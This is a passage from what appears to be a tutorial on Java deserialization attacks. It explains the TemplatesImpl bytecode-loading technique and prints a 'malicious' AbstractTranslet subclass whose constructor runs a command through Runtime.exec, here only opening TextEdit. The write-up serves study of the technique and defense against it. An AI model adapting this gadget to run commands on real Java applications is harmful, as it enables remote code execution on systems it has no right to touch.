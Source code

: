 ```java
    }
}
```

<img src="./images/6.png" alt="">
> Here `_tfactory` needs to be a `TransformerFactoryImpl` object, because the `TemplatesImpl#defineTransletClasses()` method is called to `_tfactory.getExternalExtensionsMap()`. If the value is `null`, it will cause an error.

<img src="./images/7.png" alt="">

<img src="./images/8.png" alt="">

> It is also worth noting that the loaded bytecode in `TemplatesImpl` has certain requirements: the class corresponding to this bytecode must be a subclass of `com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`. For example, the code of a malicious class is as follows

```java
package URLClassLoaderDemo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;
/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 5:52 pm
 */
public class EvilOfTemplateslmplLoader extends AbstractTranslet {
    public EvilOfTemplateslmplLoader() throws IOException {
        Runtime.getRuntime().exec("open -a /System/Applications/TextEdit.app");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
}
```